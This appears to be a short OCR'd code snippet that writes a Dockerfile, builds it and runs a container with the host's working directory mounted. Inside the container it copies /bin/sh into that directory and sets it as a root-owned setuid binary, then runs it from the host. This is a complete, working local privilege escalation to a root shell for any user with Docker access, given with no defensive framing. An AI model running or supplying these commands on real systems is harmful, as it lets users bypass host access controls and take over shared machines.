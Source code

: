 cat > Dockerfile
FROM ubuntu:14.04
ENV WORKDIR /stuff
RUN mkdir -p $WORKDIR
VOLUME [ $WORKDIR ]
WORKDIR $WORKDIR

> docker build -t my-docker-image .
> docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh'
> ./sh
